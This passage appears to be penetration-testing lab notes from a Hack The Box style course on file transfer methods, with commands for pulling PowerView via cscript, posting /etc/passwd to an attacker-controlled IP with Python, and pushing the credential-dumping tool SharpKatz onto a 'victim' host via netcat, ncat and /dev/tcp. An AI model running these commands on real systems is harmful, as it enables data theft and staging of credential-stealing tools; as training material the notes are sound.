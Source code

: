 - Save to wget.vbs

`C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`

## Upload Operations using Python3

`XeroCyb3r@htb[/htb]**$** python3 -m uploadserver`

`XeroCyb3r@htb[/htb]**$** python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`

# Miscellaneous File Transfer Methods

[Netcat](https://sectools.org/tool/netcat/) (often abbreviated to `nc`) is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means that we can use it for file transfer operations.

## Netcat

**Compromised:** `victim@target:~**$** nc -l -p 8000 > SharpKatz.exe`

`XeroCyb3r@htb[/htb]**$** nc -q 0 192.168.49.128 8000 < SharpKatz.exe`

**Sending File as Input**

`XeroCyb3r@htb[/htb]**$** sudo nc -l -p 443 -q 0 < SharpKatz.exe`

`victim@target:~**$** nc 192.168.49.128 443 > SharpKatz.exe`

OR

`victim@target:~**$** cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`

## Ncat

Compromised: `victim@target:~**$** ncat -l -p 8000 --recv-only > SharpKatz.exe`

`XeroCyb3r@htb[/htb]**$** ncat --send-only 192.168.49.128 8000 < SharpKatz.exe`

**Sending File as Input**

`XeroCyb3r@htb[/htb]**$** sudo ncat -l -p 443 --send-only < SharpKatz.exe`

`victim@target:~**$** ncat 192.168.49.128 443 --recv-only > SharpKatz.exe`

**OR**

`victim@target:~**$** cat < /dev/tcp/192.168.49.128/443 > <filename>`

# PowerShell Session File Transfer

By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.
